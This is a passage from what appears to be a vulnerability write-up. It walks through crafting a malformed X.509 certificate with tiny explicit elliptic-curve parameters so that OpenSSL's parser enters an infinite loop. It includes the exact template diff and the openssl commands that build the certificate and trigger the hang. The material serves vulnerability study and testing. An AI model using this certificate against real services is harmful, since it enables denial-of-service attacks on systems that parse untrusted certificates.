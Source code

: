 Clone the repo:

```bash
$ git clone https://github.com/wllm-rbnt/asn1template.git
```

Generate a DER template from this certificate:

```bash
$ ./asn1template/asn1template.pl cert.der > cert.tpl
```

Then Change the parameters we just memtioned above:

```bash
diff cert.tpl cert_new.tpl
46c46
< field32 = FORMAT:HEX,OCTETSTRING:036B17D1F2E12C4247F8BCE6E563A440F277037D812DEB33A0F4A13945D898C296
---
> field32 = FORMAT:HEX,OCTETSTRING:030008
51c51
< field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
---
> field36 = INTEGER:0x2B9
53,54c53,54
< field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
< field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
---
> field37 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000017
> field38 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000000
```

Convert it back to DER encoded ASN1 with ASN1\_generate\_nconf(3):

```bash
$ openssl asn1parse -genconf cert_new.tpl -noout -out cert_new.der
```

The output `cert_new.der` is equivalent to the manually edited version.

So now we have successfully crafted an invalid certificate. Let's see the new ASN.1 structure

```bash
$ openssl asn1parse -in cert.der.new -inform DER -i
```

![asn1-structure-of-x509-after](./images/asn1-structure-of-x509-after.png)

All the red parts have been modified, and the certificate can be DER-decoded correctly.

### Test with the invalid certificate

Now let's attempt to parse the certificate. The process will get into the infinite loop if everything is as expected.

```bash
openssl x509 -in cert.der.new -inform DER -text -noout
```
